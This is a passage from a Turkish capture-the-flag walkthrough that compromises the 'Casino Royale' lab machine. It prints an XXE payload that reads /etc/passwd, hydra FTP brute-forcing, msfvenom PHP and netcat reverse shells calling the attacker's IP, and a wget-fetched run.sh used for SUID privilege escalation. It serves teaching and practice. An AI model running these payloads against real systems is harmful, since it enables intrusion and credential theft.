`New Clients - Please Read` Başlıklı linke gittiğinizde size şu şekilde bir açıklama yapıyor. Eğer müşterimiz olmak istiyorsanız bize bir eposta atın. Ayrıca bir referansınızın olması lazım bunu epostanın konu kısmında belirtin. Admin ayrıca yorum olarak şöyle bir şey yazmış sayfaya Le'nin gözleri kötü lütfen linkleri satır satır yazınız :) Epostalarımızı Valenka bütün epostalarımızı okuyacakmış. O zaman bizim şimdi valenkaya bir eposta atmamız gerekmekte ve link olarakda aslında `/var/www/html` altına kopyaladığımız dosyayı vereceğiz.

Nmap çıktısına baktığımızda 25. portta smtp portu olduğunu görmüştük. Bir bilgi vereyim smtp sadece eposta atmaya yarar eposta okumak için pop3, imap gibi protokollere ihtiyacımız vardır. Neyse bu ufak bilgiden sonra devam edelim...

25. porta `telnet` ile bağlanabiliriz. Burdan sonra smtp posifix komutlarını kullanarak ilerleyeceğiz. Eğer daha önceden smtp komutları ile ilgilenmediyseniz çok zorlanmadan anlayacağınıza eminim. Kaynaklar kısmında kolay bir şikilde öğrenebileceğiniz bir kaynak verdim.

İlk olarak bize bir bağlantı oldu mu olmadı mı bunun kontrolü için log dosyasını canlı olarak okumalıyız.
```sh
root@kali:/var/log/apache2# tail -f access.log 
```
Daha sonrasında telnet aracılığı ile mail yolladım.
```sh
oot@kali:~# telnet  192.168.171.141 25
Trying 192.168.171.141...
Connected to 192.168.171.141.
Escape character is '^]'.
220 Mail Server - NO UNAUTHORIZED ACCESS ALLOWED Pls.
mail from:user
250 2.1.0 Ok
rcpt to:valenka
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject:obanno
yeni uye kaydi yapacam  
http://192.168.171.136/casino.html
.
250 2.0.0 Ok: queued as 0219822F6
quit
221 2.0.0 Bye
Connection closed by foreign host.
```
Kısa bir süre sonra log düştüğünü gördüm...
```sh
root@kali:/var/log/apache2# tail -f access.log 
192.168.171.141 - - [16/May/2019:09:34:44 -0400] "GET /casino.html HTTP/1.1" 200 1165 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_7_5) AppleWebKit/537.4 (KHTML, like Gecko) Chrome/22.0.1229.94 Safari/537.4"
```
Evet istediğimiz her şey oluyor gibi. Artık sisteme giriş yapabiliriz. `http://casino-royale.local/vip-client-portfolios/?uri=signin` adresine giriş yaparak eposta kısmına *user@user.local* şifre kısmına ise *password* yazalım.

İçeride gezindikten sonra menü kısmından `Admin`->`Users`->`Manage Accounts` kısmına gelip *Le*'nin profiline girdiğimde `/ultra-access-view/main.php` şeklinde bir bağlantı gördüm.
`casino-royale.local/ultra-access-view/main.php` adresine gittiğimde yeni bir sayfa ile karşılaştım. Sayfanın kaynak kodlarına bakalım.
```html
<html>
<style>
body {
	color: #c46f6f;
}
hr {
	color: magenta;
}
</style>

<body style="background-color:#1e1614;">
<h1 style="color:red;">Client Access: ULTRA</h1>
<hr>
<br>
<!--FYI this is taking POST requests without a front end for the time being..
Try using curl to POST Xml commands or Xml script files herE!   

PHP code below...
 
    libxml_disable_entity_loader (false); 
    
    $xmlfile = file_get_contents('php://input'); 
    
    $dom = new DOMDocument(); 
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom); 
    $user = $creds->customer; 
    $pass = $creds->password; 
    echo "Welcome $user !";
-->


Welcome  ! 


</body>


<!--also pls update the password for the custom ftp acct once the front end is finished..since it's easy -->

</html>

```

Sayfa koduna bakığımızda XML dosyalarını kabul ettiğini ve xml yapısının nasıl olduğunu anlayabiliriz. Bir xml dosyası oluşturup curl ile bağlantı atalım.

```sh
root@kali:/var/www/html# cat xml.txt 
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
	<customer>&xxe;</customer>
	<password>mypass</password>
</creds>

```
XML ile xxe injection bilinmesi gerekiyor yukarıda ne yaptığımızı anlayabilmek için. Kısacassı XXE injecion ile XML parser işlemleri yapan ya da XML dosyalarında işlemler yapan sunucu taraflı alışan programlama dillerinde (php gibi) düzgün bir payload ile uzaktan kod çalıştırma işleminde bulunabiliriz. BU konuyla alakalı açıklayıcı bir linki kaynaklar kısmında paylaştım. Eğer eksik olduğunuzu düşünüyorsanız, lütfen çalıştıktan sonra devame edin.

```sh
root@kali:/var/www/html# curl -d  @xml.txt http://casino-royale.local/ultra-access-view/main.php
<html>
<style>
body {
	color: #c46f6f;
}
hr {
	color: magenta;
}
</style>

<body style="background-color:#1e1614;">
<h1 style="color:red;">Client Access: ULTRA</h1>
<hr>
<br>
<!--FYI this is taking POST requests without a front end for the time being..
Try using curl to POST Xml commands or Xml script files herE!   

PHP code below...
 
    libxml_disable_entity_loader (false); 
    
    $xmlfile = file_get_contents('php://input'); 
    
    $dom = new DOMDocument(); 
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom); 
    $user = $creds->customer; 
    $pass = $creds->password; 
    echo "Welcome $user !";
-->


Welcome root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
_apt:x:104:65534::/nonexistent:/bin/false
rtkit:x:105:109:RealtimeKit,,,:/proc:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
speech-dispatcher:x:108:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
lightdm:x:109:113:Light Display Manager:/var/lib/lightdm:/bin/false
pulse:x:110:114:PulseAudio daemon,,,:/var/run/pulse:/bin/false
avahi:x:111:117:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
saned:x:112:118::/var/lib/saned:/bin/false
le:x:1000:1000:Le Chiffre,,,:/home/le:/bin/bash
mysql:x:113:120:MySQL Server,,,:/nonexistent:/bin/false
valenka:x:1001:1001:,,,:/home/valenka:/bin/bash
postfix:x:114:121::/var/spool/postfix:/bin/false
ftp:x:115:124:ftp daemon,,,:/srv/ftp:/bin/false
ftpUserULTRA:x:1002:1002::/var/www/html/ultra-access-view:/bin/bash
 ! 


</body>


<!--also pls update the password for the custom ftp acct once the front end is finished..since it's easy -->

</html>
```
Bingo! Sayfanın en alttaki yorum satırına dikket edelim. ftp kullanıcısının şifresini değiştir diyor. Hydra ile kırmayı deneyelim.

```sh
root@kali:~# hydra -l ftpUserULTRA -P /usr/share/wordlists/rockyou.txt ftp://192.168.171.141 
Hydra v8.8 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2019-05-17 18:43:44
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://192.168.171.141:21/
[STATUS] 259.00 tries/min, 259 tries in 00:01h, 14344140 to do in 923:03h, 16 active
[STATUS] 261.67 tries/min, 785 tries in 00:03h, 14343614 to do in 913:37h, 16 active
[STATUS] 271.29 tries/min, 1899 tries in 00:07h, 14342500 to do in 881:09h, 16 active
[STATUS] 267.40 tries/min, 4011 tries in 00:15h, 14340388 to do in 893:49h, 16 active
[STATUS] 270.35 tries/min, 8381 tries in 00:31h, 14336018 to do in 883:47h, 16 active
[STATUS] 269.55 tries/min, 12669 tries in 00:47h, 14331730 to do in 886:09h, 16 active
[STATUS] 268.89 tries/min, 16940 tries in 01:03h, 14327459 to do in 888:04h, 16 active
[STATUS] 268.15 tries/min, 21184 tries in 01:19h, 14323215 to do in 890:15h, 16 active
[STATUS] 267.38 tries/min, 25401 tries in 01:35h, 14318998 to do in 892:34h, 16 active
[STATUS] 267.47 tries/min, 29689 tries in 01:51h, 14314710 to do in 891:60h, 16 active
[STATUS] 267.71 tries/min, 33999 tries in 02:07h, 14310400 to do in 890:56h, 16 active
[STATUS] 267.10 tries/min, 38195 tries in 02:23h, 14306204 to do in 892:42h, 16 active
[STATUS] 267.41 tries/min, 42518 tries in 02:39h, 14301881 to do in 891:24h, 16 active
[STATUS] 267.40 tries/min, 46795 tries in 02:55h, 14297604 to do in 891:09h, 16 active
[21][ftp] host: 192.168.171.141   login: ftpUserULTRA   password: bankbank
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2019-05-17 21:46:14
```
3 saat süren bir bruteforce saldırısından sonra şifreyi elde edebildik. 
ip:`192.168.171.141`
login:`ftpUserULTRA`
password:`bankbank`
Artık sisteme sızabiliriz.


## 2	Sisteme Sızma

İlk olarak bir backdoor oluşturup dinleme noktası yapalım.
```sh
root@kali:~# msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.171.136 lport=1822 -f raw > shell.php5
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1116 bytes
```
 Şimdi dinleme noktası oluşturalım. `msfconsole`'a girip aşağıdaki ayarları yaptım.
 ```sh
 msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.171.136
lhost => 192.168.171.136
msf5 exploit(multi/handler) > set lport 1822
lport => 1822
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.171.136:1822
```
Şimdi ftp ile shell dosyasını ekleyelim.

```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# ftp 192.168.171.141 
Connected to 192.168.171.141.
220 Customer Access Level: ULTRA
Name (192.168.171.141:root): ftpUserULTRA
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> put shell.php5 
local: shell.php5 remote: shell.php5
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
1116 bytes sent in 0.01 secs (150.1162 kB/s)
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Desktop
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Documents
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Downloads
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Music
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Pictures
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Public
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Templates
drwxr-xr-x    2 1002     1002         4096 Feb 22 20:21 Videos
-rw-r--r--    1 0        0             191 Feb 22 19:42 battle2root.html
-rwxr-xr-x    1 0        0              76 Feb 20 12:38 hello_world.pl
-rwxr-xr-x    1 1002     1002         1131 Feb 21 00:00 main.php
-rw-------    1 1002     1002         1116 May 18 14:33 shell.php5
226 Directory send OK.
ftp> chmod 777 shell.php5 
200 SITE CHMOD command ok.
```

Evet shell dosyamızıda başarı ile yükledik. Şimde reverse almamız gerekiyor. XML ile aldığımız cevapta ftp kullanıcısı ile alakalı şu bilgiyi almıştık: `ftpUserULTRA:x:1002:1002::/var/www/html/ultra-access-view:/bin/bash` buradan klasörünü görebiliyoruz. Tarayıcıya `http://192.168.171.141/ultra-access-view/shell.php5` adresini yazdığımızda...
```sh
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.171.136
lhost => 192.168.171.136
msf5 exploit(multi/handler) > set lport 1822
lport => 1822
msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.171.136:1822 
[*] Sending stage (38247 bytes) to 192.168.171.141
[*] Meterpreter session 1 opened (192.168.171.136:1822 -> 192.168.171.141:36062) at 2019-05-18 16:20:51 -0400

meterpreter > 
```
İçerdeyiz! Meterpreterden shell'e geçtiğimizde daha iyi bir console için `python -c "import pty; pty.spawn('/bin/bash')"` komutunu uyguladım.
```sh
www-data@casino:/var/www$ cd html
cd html
www-data@casino:/var/www/html$ ls
ls
8F7Vx2gSqr2b3x.html  install	 pokeradmin
almost2-root	     kboard	 pokerleague-installation-help.html
cards		     le4.webm	 pokerleague_.php
closer.webm	     main.css	 pokerleague_.php.orig
includes	     main.js	 robots.txt
index.html	     main1.webm  ultra-access-view
index.html.old	     mfw.html	 vip-client-portfolios
index.php	     phpmyadmin
www-data@casino:/var/www/html$ cd /var/www/html
cd /var/www/html
www-data@casino:/var/www/html$ ls -l
ls -l
total 936
-rw-r--r--  1 root         root        188 Feb 22 18:49 8F7Vx2gSqr2b3x.html
drwxr-xr-x  2 root         root       4096 Feb 22 19:05 almost2-root
drwxr-xr-x  2 root         root       4096 Feb 21 22:02 cards
-rw-r--r--  1 root         root      91628 Feb 22 18:38 closer.webm
drwxrwxrwx  2 www-data     www-data   4096 Nov 17 16:37 includes
-rw-r--r--  1 root         root        220 Feb 21 21:36 index.html
-rwxrwxrwx  1 www-data     www-data    847 Feb 21 21:27 index.html.old
-rwxrwxrwx  1 www-data     www-data   1054 Nov 17 18:14 index.php
drwxrwxrwx  2 www-data     www-data   4096 Nov 17 17:08 install
drwxr-xr-x  2 root         root       4096 Feb 20 16:21 kboard
-rw-r--r--  1 root         root     268416 Feb 22 18:38 le4.webm
-rw-r--r--  1 root         root       1083 Feb 21 21:26 main.css
-rw-r--r--  1 root         root       1083 Feb 21 21:26 main.js
-rw-r--r--  1 root         root     496792 Feb 21 21:38 main1.webm
-rw-r--r--  1 root         root        188 Feb 22 18:58 mfw.html
lrwxrwxrwx  1 www-data     www-data     21 Nov 17 15:59 phpmyadmin -> /usr/share/phpmyadmin
drwxrwxrwx  4 www-data     www-data   4096 Nov 17 20:01 pokeradmin
-rwxrwxrwx  1 www-data     www-data   8928 Jul  2  2007 pokerleague-installation-help.html
-rwxrwxrwx  1 www-data     www-data   7397 Nov 17 17:56 pokerleague_.php
-rwxr-xr-x  1 www-data     www-data   7419 Nov 17 17:54 pokerleague_.php.orig
-rw-r--r--  1 root         root         49 Feb 21 21:55 robots.txt
drwxrwxr-x 14 ftpUserULTRA www-data   4096 May 18 14:33 ultra-access-view
drwxr-xr-x  5 www-data     www-data   4096 Jan 12 16:56 vip-client-portfolios
www-data@casino:/var/www/html$ cd includes
cd includes
www-data@casino:/var/www/html/includes$ ls
ls
CGI.php  SQLQuery.php	     config.php  style.css
SQL.php  backup-zip.lib.php  index.html
www-data@casino:/var/www/html/includes$ more config.php
more config.php
<?PHP
/*
 PokerMax Pro Poker League Software
 Written by Steve Dawson - 01-07-2007 www.stevedawson.com
*/

/** Complete your database info below and then run the yourdomain.com/install/  **/
/**************** DATABASE MODIFICATION SECTION ****************/
$server = "localhost";                              // Server Host
$DBusername = "valenka";                               // Database Username
$DBpassword = "11archives11!";                                   // Database Password
$database = "pokerleague";                       // Database Name

$tournament_table = "pokermax_tournaments"; 
$admin_table = "pokermax_admin";
$player_table = "pokermax_players";
$score_table = "pokermax_scores";
 
/**************** OPTIONS SECTION ****************/
$search_limit = "50"; // listings per page - tournaments and players
$DatabaseError = "<p align=\"center\" class=\"red\">No details found, please try--More--(79%)q
www-data@casino:/var/www/html/includes$ 
www-data@casino:/var/www/html/includes$ 
```
Neler yaptımıza bir bakalım. `var/www/html` klasörüne gittilten sonra *includes* klasörü ilgimi çekti ve orada bir *config.php* dosyası gördüm. İçini okuduğumda bir kullanıcı adı ve şifre buldum. 
```sh
www-data@casino:/var/www/html/includes$ su valenka
su valenka
Password: 11archives11!

valenka@casino:/var/www/html/includes$ 
```
Bingo! artık valenka'yız. Bir kaç yere baktıktan sonra aklıma suid biti etkin olan dosyalara bakmak geldi ve tarama yaptım.
```sh
valenka@casino:/var/www/html/includes$ find / -perm -u=s 2> /dev/null
find / -perm -u=s 2> /dev/null
/opt/casino-royale/mi6_detect_test
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/xorg/Xorg.wrap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/userhelper
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/su
/bin/ntfs-3g
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
valenka@casino:/var/www/html/includes$ 
```
i6_detect_test dosyasına baktım ve kontrol ettim. çalışırken run.sh isimli bir dosyaya ihtiyaç duyuyor, bundna dolayı run.sh isimli bir bash script yazıp tekrar reverse deneyeceğim.
```sh
valenka@casino:/tmp$ /opt/casino-royale/mi6_detect_test
/opt/casino-royale/mi6_detect_test
/bin/bash: run.sh: No such file or directory
```


## 3	Yetki Yükseltme
İlk başta kendi makinemde bir payload oluşturup bunu run.sh isimli bir dosyaya yazıp daha sonra python ile mini server oluşturup hedef makine içerisinde */tmp* klasörüne wget ile çekeceğim.
```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# msfvenom -p cmd/unix/reverse_netcat lhost=192.168.171.136 lport=1823 R
[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 97 bytes
mkfifo /tmp/hikxc; nc 192.168.171.136 1823 0</tmp/hikxc | /bin/sh >/tmp/hikxc 2>&1; rm /tmp/hikxc
```
Payloadı oluşturduktan sonra dinleme noktası oluşturalım.
```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# nc -lvp 1823
listening on [any] 1823 ...
```
Şimdi payloadı run.sh isimli dosyaya yazıp python ile server oluşturalım. Burada payload'tan kastım : *mkfifo /tmp/hikxc; nc 192.168.171.136 1823 0</tmp/hikxc | /bin/sh >/tmp/hikxc 2>&1; rm /tmp/hikxc*

```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# nano run.sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# python -m SimpleHTTPServer 1824
```

Hedef makineden run.sh dosyasını çekelim.

```sh
valenka@casino:/tmp$ wget http://192.168.171.136:1824/run.sh
wget http://192.168.171.136:1824/run.sh
--2019-05-18 16:52:55--  http://192.168.171.136:1824/run.sh
Connecting to 192.168.171.136:1824... connected.
HTTP request sent, awaiting response... 200 OK
Length: 98 [text/x-sh]
Saving to: ‘run.sh’

run.sh              100%[===================>]      98  --.-KB/s    in 0s      

2019-05-18 16:52:55 (7.80 MB/s) - ‘run.sh’ saved [98/98]
```
Ve artık suid biti etkin olan dosyayı çalıştıralım...
```sh
valenka@casino:/tmp$ /opt/casino-royale/mi6_detect_test
/opt/casino-royale/mi6_detect_test
```
Kalimize bağlantı geldi!
```sh
root@kali:~/Documents/Kutular/CasinoRoyale/dosyalar# nc -lvp 1823
listening on [any] 1823 ...
connect to [192.168.171.136] from casino-royale.local [192.168.171.141] 37948
ls
hikxc
run.sh
whoam
/bin/sh: 2: whoam: not found
whoami
root
```
Evet root'uz!
```sh
cd /root
ls
ctf-scripts
Desktop
Downloads
flag
Maildir
node_modules
package-lock.json
Pictures
```
```sh
ls -l
total 32
drwxr-xr-x 2 root root 4096 May 16 15:53 ctf-scripts
drwxr-xr-x 2 root root 4096 Jan 17 17:45 Desktop
drwxr-xr-x 3 root root 4096 Feb 21 21:51 Downloads
drwxr-xr-x 3 root root 4096 Feb 20 17:44 flag
drwx------ 5 root root 4096 Jan 17 19:55 Maildir
drwxr-xr-x 4 root root 4096 Jan 12 00:29 node_modules
-rw-r--r-- 1 root root  255 Jan 12 00:29 package-lock.json
drwxr-xr-x 2 root root 4096 Feb 20 09:01 Pictures
```
```sh
cd flag
ls -l
total 12
drwxr-xr-x 2 root root 4096 Feb 20 17:22 files
-rwx------ 1 root root  354 Feb 20 17:40 flag.sh
-rw-r--r-- 1 root root  854 Feb 20 17:44 index.php
```

flag.sh dosyasını çalıştırdığımızda karşımıza çıkan console ekranı aşağıda verilmiştir.

```sh
./flag.sh
--------------------------------------------
--------------------------------------------
Go here:   http://casino-royale.local:8082
--------------------------------------------
--------------------------------------------
[Sat May 18 16:58:27 2019] 192.168.171.136:36260 [200]: /
[Sat May 18 16:58:27 2019] 192.168.171.136:36262 [200]: /files/main.css
[Sat May 18 16:58:27 2019] 192.168.171.136:36264 [200]: /files/main.js
[Sat May 18 16:58:27 2019] 192.168.171.136:36266 [200]: /files/boend.webm
[Sat May 18 16:58:28 2019] 192.168.171.136:36268 [200]: /files/main.css
[Sat May 18 16:58:28 2019] 192.168.171.136:36270 [404]: /favicon.ico - No such file or directory
```

<div align="center">
    
    <p>Bingo</p>
</div>

## Kaynaklar:
https://www.mailboxvalidator.com/resources/articles/smtp-commands-rfc/
https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection